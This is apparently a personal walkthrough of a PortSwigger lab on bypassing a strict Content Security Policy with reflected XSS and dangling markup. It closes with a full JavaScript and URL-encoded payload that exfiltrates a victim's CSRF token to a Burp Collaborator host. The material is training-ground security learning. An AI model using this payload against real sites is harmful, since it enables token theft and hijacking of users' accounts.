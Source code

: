 It's quite common for a CSP to block resources like `script`. However, many CSPs do allow image requests. This means you can often use `img` elements to make requests to external servers in order to disclose [CSRF tokens](https://portswigger.net/web-security/csrf/tokens), for example.

Some browsers, such as Chrome, have built-in [dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) mitigation that will block requests containing certain characters, such as raw, unencoded new lines or angle brackets.

Some policies are more restrictive and prevent all forms of external requests. However, it's still possible to get round these restrictions by eliciting some user interaction. To bypass this form of policy, you need to inject an HTML element that, when clicked, will store and send everything enclosed by the injected element to an external server.

## Lab: Reflected XSS protected by very strict CSP, with dangling markup attack

> This lab using a strict [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) that blocks outgoing requests to external web sites.
> To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the CSP and exfiltrates the [CSRF token](https://portswigger.net/web-security/csrf/tokens) using Burp Collaborator. You need to label your vector with the word "Click" in order to induce the simulated victim user to click it. For example:
> `<a href="">Click me</a>`
> You can log in to your own account using the following credentials: `wiener:peter`

--> So first i logged in as `wiener` with password `peter` because there were no search bar where i can search so let's login first to see more things . And also let's intercept the login response to see what are the policies defined in CSP.

And i found this:

```
HTTP/1.1 302 Found
Location: /my-account
Set-Cookie: session=6Rdm5ilHpeXUpVdbj5BxyhyBO20tB8UY; Secure; HttpOnly; SameSite=None
Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';
Connection: close
Content-Length: 0
```

I found some bypass scripts for these policies on google but none of them worked :(

You can find some resources here :

- https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass
- https://brutelogic.com.br/blog/csp-bypass-guidelines/

And after login i found that we can change our email so i intercepted the request for changing my email and i found that it's vulnerable to XSS (because portswigger said this!) so we have to use this functionality to steal the csrf token of the victim.

> Note: store this request in repeater because in future we will use it!

So i used this payload in our exploit server :

```html
<script>
  if (window.name) {
    new Image().src =
      "//your-collaborator-id.burpcollaborator.net?" +
      encodeURIComponent(window.name);
  } else {
    location =
      "https://your-lab-id.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://your-exploit-server-id.web-security-academy.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27";
  }
</script>
```
